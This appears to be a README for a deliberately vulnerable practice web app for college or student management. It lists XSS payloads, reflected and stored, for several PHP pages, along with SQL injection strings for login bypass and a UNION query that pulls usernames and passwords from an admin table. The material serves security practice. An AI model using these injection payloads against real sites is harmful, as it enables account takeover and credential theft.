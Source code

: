# basic collage management 
is a vuln web site to XSS and SQLi

## XXS
### reflected XSS
> reflected XSS found in **all_students.php page at search function** 
> u can use `?search=<image%20src=s%20onerror=prompt(8)>` as a payload to test the vuln

>reflected XSS found in **index.php page at search function**
>u can use `?search=<script>alert%281%29%3B<%2Fscript>` as a payload to test the vuln
### sotred XXS
> stored XSS found in **add_student.php page at Address field** 
> u can insert `<script>alert(2);</script>` in Address field as a payload 
> to test the vuln go to **all_students.php page** 

>stored XSS found in **view_course.php?id= page at Address field**
> u can insert `<script>alert(2);</script>` in comment field as a payload 
----------------------------------------------------------------


## SQLi

### SQLi Subverting application logic
> SQLi found in **login-page.php page at username field**
> u can insert `admin' -- -` or `admin' OR '1'='1 -- -` in username field as a payload if having a previuos knowloadege of user **admin** 


### UNION SQLi
> UNION SQLi found in **profile.php page through GET Parameter**
> u can inswer `/profile.php?id=' UNION SELECT username,password,NULL,NULL FROM admin where id = 'ID' -- -` in the url field as a payload. **ID = 1,2...**

